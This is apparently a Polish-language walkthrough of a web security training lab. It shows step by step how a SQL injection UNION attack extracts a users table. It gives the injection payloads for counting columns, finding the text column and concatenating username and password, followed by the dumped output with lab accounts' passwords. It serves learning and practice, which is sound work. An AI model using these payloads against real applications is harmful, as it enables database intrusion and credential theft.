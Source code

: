 SQL injection UNION attack, retrieving multiple values in a single column
Pierwszym krokiem było określenie liczy kolumn w przechwyconym pakiecie.
``` ' UNION SELECT NULL-- ```
I zwiększamy wartość NULL po przecinku NULL,NULL-- do momętu aż uzyskamy HTTP/2 200 OK 
Następnie jeśli już uskamy tą wartość, musimy dowiedzieć się, która z tych kolumn zawiera tekst, w tym przypadku była to druga kolumna, określiłem to za pomocą ``` ' UNION SELECT NULL,'abc'-- ```
W kolejnym kroku musimy utworzyć zapytanie wiemy, że baza danych zawiera tabelę users z kolumniami username,password. Oto zapytanie.
``` ' UNION SELECT NULL, username || '~' || password FROM users-- ```
Wartość NULL jest tutaj zapisana ponieważ wiemy, że pierwsza tabela nie zawiera tylko druga. dzięki temu zapytaniu uzyskałem zrzut całe bazy danych.
```
                            <th>wiener~xkhstq2rd73ukf1yddjo</th>
                        </tr>
                        <tr>
                            <th>administrator~2nwssjbzicownbljqt8w</th>
                        </tr>
                        <tr>
                            <th>carlos~qvjff1y3mqjqk784v7lc
```
